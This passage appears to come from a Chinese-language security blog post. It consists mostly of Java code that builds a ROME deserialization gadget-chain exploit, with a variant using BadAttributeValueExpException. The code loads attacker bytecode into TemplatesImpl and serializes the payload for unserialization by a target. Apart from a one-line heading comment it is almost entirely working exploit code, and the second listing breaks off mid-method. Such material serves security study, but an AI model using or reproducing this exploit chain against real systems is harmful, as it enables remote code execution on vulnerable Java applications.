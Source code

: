 ```plain

        Hashtable hashtable = new Hashtable();
        hashtable.put(objectBean,"123");

        Field field = toStringBean.getClass().getDeclaredField("_obj");
        field.setAccessible(true);
        field.set(toStringBean,templates);
//        serialize(hashtable);
        unserialize("ser.bin");
    }




    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## EXP(BadAttributeValueExpException)：

CC里面调用toString的方法

```plain
package EXPROME;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import org.apache.commons.collections4.functors.ConstantTransformer;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Hashtable;

public class RomeBdAttribute {
    public static void setValue(Object obj,String name,Object value)throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception{

        byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXPROME/Demo.class"));
        byte[][] codes = {code};
        TemplatesImpl templates = new TemplatesImpl();
        Class tc = templates.getClass();
        setValue(templates,"_name","Ic4F1ame");
        setValue(templates, "_tfactory", new TransformerFactoryImpl());
```